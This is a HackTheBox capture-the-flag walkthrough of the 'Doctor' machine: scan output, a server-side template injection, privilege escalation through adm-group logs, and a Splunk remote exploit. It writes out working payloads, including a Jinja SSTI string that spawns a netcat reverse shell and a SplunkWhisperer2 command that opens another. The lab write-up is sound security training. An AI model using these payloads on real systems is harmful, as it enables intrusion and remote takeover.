








# [Doctor](https://app.hackthebox.eu/machines/278) HackTheBox Writeup


## First Stage : Enumeration 


Let's fire up nmap.

```
# Nmap 7.91 scan initiated Fri Jan 22 10:15:43 2021 as: nmap -sC -sV -T4 -vv -p- -oN nmapscan 10.10.10.209
Nmap scan report for docotor.htb (10.10.10.209)
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-22 10:15:47 IST for 332s
Not shown: 65532 filtered ports
Reason: 65532 no-responses
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCzyPiL1j9E6lyOgxqgosQ64mBwocTGo1DpclHHV5w28qPbnBJL32hfDNgUhAeaq7PL8zOQlKWprEnkfBNTUagvcX7deMgPsJ6zow/K+WPqIUU5+LbQQ9TV6YeiWiPrO1W9dwwY0ZTXkkG6905kLDsKtCQZqt0VUGPiyWnZswXwWjbBo9KBF1dctUKv+MuyPLQ2qAr5X9LL21/tWw0fLrIKLkCvdaMI9tVYXeFNZ1WyJSI4BfCB5OrNzpr4RN/CaGSjSiBGn2zkegsk+zJpePSp9qfP/fMwEyDQ1c8kei0g35Neaw5Mob1q3R0L6w8fTAnsYo9bYlnHNOl4Juon0QaOfzDry/c4Hmwi43ypeUlv2zUdgGDUdemG79/nHx/rtLbBvdROI3UIjn6HOweHJs9VmwUjx509xZGoCwRcB0lIrDg9pWitWbg+qMTBvvYrLWgSovjpnilu8OcVituQHoXrrLMFVREY0SzF7K6SqbBO7QTrKODzrf1aH5gdgQNCE18=
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOHMC7+4t7zcs7cPg4JoOZiJF+MiORNU6ky66rLocXDEySgRgkeNf2uzjblvpnn2QYid7TCQUwQ/6Bbz2yFM7jg=
|   256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEF0lJKhEknY94/rK0D2et4K9Tp2E6CsYp0GxwdNJGhs
80/tcp   open  http     syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Doctor
8089/tcp open  ssl/http syn-ack Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23 4e5c 546d 8895 0f5f 8f42 5e90 6787
| SHA-1: 7ec9 1bb7 343f f7f6 bdd7 d015 d720 6f6f 19e2 098b

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jan 22 10:21:19 2021 -- 1 IP address (1 host up) scanned in 336.94 seconds
```

Hence the ports which are open :

* 80
* 22
* 8089


So let's visit port 80.


Hence this shows we have to add **doctors.htb** to /etc/hosts.

After adding let's visit.




Hence I register and login.


Also I fireup gobuster and run it.


```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://doctors.htb/
[+] Threads:        50
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,html,php,js
[+] Timeout:        10s
===============================================================
2021/01/22 11:07:40 Starting gobuster
===============================================================
/archive (Status: 200)
/home (Status: 302)
/login (Status: 200)
/register (Status: 200)
/account (Status: 302)
/logout (Status: 302)
/reset_password (Status: 200)
/server-status (Status: 403)
```

So after logging in I saw a page.




Initially I thought xss because I thought some admin will look at these messages, then after it failed , I tried many injections but the only one worked , it was __Server Side Template Injection__. And link for payload is :https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Hence I used __{{7*7}}__ .


And I went to archive .



As we can see 49 , so server side template injection is there.

### __Second Stage : Initial access as web__
Hence after trying many payloads I found this one working , you may find something simple.


```
{{x()._module.__builtins__['__import__']('os').popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <vpn-ip> 1234 >/tmp/f").read().zfill(417)}}
```

So I created this post



After that I went to archive and got shell.




### Third Stage : web to shaun


Since I was in adm group I searched 

> find / -type f -group adm 2>>/dev/null 

One thing caught my eye.





Hence I found the password in that file.


So let's **su** as shaun.


### __Fourth Stage : shaun to root__

After running linpeas I didn't get anything interesting other than the service Splunk running at 8089.

Hence I tried searcing for exploits and found this one.

Go to this github repo : https://github.com/cnotin/SplunkWhisperer2

And clone it.

And use **PySplunkWhisperer2_remote.py** .


> python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --username shaun --password "\<redacted-pass>" --payload "nc.traditional -e /bin/sh \<vpn-ip> 4444" --lhost \<vpn-ip>




Now we get a shell





